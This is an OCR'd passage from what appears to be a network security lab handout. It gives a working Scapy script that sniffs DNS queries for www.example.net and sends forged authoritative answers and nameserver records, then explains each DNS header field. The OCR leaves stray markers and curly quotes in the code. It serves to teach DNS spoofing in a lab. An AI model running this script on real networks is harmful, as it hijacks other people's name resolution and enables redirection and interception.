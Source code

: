 def spoof_dns(pkt):
if (DNS in pkt and ’www.example.net’ in pkt[DNS].qd.qname.decode(’utf-8’)):

```
# Swap the source and destination IP address
IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
```
```
# Swap the source and destination port number
UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
```
```
# The Answer Section
Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type=’A’,
ttl=259200, rdata=’10.0.2.5’)
```
```
# The Authority Section
NSsec1 = DNSRR(rrname=’example.net’, type=’NS’,
ttl=259200, rdata=’ns1.example.net’)
NSsec2 = DNSRR(rrname=’example.net’, type=’NS’,
ttl=259200, rdata=’ns2.example.net’)
```
```
# The Additional Section
Addsec1 = DNSRR(rrname=’ns1.example.net’, type=’A’,
```

```
ttl=259200, rdata=’1.2.3.4’)
Addsec2 = DNSRR(rrname=’ns2.example.net’, type=’A’,
ttl=259200, rdata=’5.6.7.8’)
```
```
# Construct the DNS packet
DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, Q
qdcount=1, ancount=1, nscount=2, arcount=2,
an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)
```
```
# Construct the entire IP packet and send it out
spoofpkt = IPpkt/UDPpkt/DNSpkt
send(spoofpkt)
```
# Sniff UDP query packets and invoke spoof_dns().
f = ’udp and dst port 53’
pkt = sniff(iface=’br-43d947d991eb’, filter=f, prn=spoof_dns) I

Please make sure replace the interface name in LineIwith the one in your system. LineQconstructs the
DNS payload, including DNS header and data. Each field of the DNS payload is explained in the following:

- id: Transaction ID; should be the same as that in the request.
- qd: Query Domain; should be the same as that in the Request.
- aa: Authoritative answer (1 means that the answer contains Authoritative answer).
- rd: Recursion Desired (0 means to disable Recursive queries).
- qr: Query Response bit (1 means Response).
- qdcount: number of query domains.
- ancount: number of records in the Answer section.
- nscount: number of records in the Authority section.
- arcount: number of records in the Additional section.
- an: Answer section
- ns: Authority section
- ar: Additional section
